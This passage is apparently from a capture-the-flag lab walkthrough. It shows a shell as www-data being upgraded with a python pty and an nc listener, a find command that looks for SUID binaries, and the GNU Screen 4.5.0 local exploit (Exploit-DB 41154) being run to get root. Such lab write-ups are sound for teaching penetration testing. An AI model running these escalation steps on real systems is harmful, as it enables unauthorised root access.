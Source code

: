 There we go we now have a shell as www-data. Let’s start by upgrading our shell to a more interactive one.

```bash
www-data@straylight:/var/www/html/turing-bolo$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<olo$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@straylight:/var/www/html/turing-bolo$ ^Z
zsh: suspended  nc -lvnp 4242
                                                                                                                                                                                                                                           
stty raw -echo; fg                                              
[1]  + continued  nc -lvnp 4242

www-data@straylight:/var/www/html/turing-bolo$ 
www-data@straylight:/var/www/html/turing-bolo$ 
```

There we go, now that we have a more interactive shell, we can go ahead and do some privilege escalation.

## Priv Esc

I started off by looking for credentials in the web root, which didn’t pan out. Then I moved to my next step which is to find binaries with their SUID bit set

```bash
www-data@straylight:/var/www$ find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/umount
/bin/mount
/bin/screen-4.5.0
/bin/ping
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```

Every file was standard for SUID bit being set, but there was one file that stood out, screen-4.5.0. After a quick Google search I found an exploit.

https://www.exploit-db.com/exploits/41154

```bash
www-data@straylight:/tmp$ ./escalate.sh 
~ gnu/screenroot ~
[+] First, we create our shell and library...
<SNIP>
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

# whoami
root
```

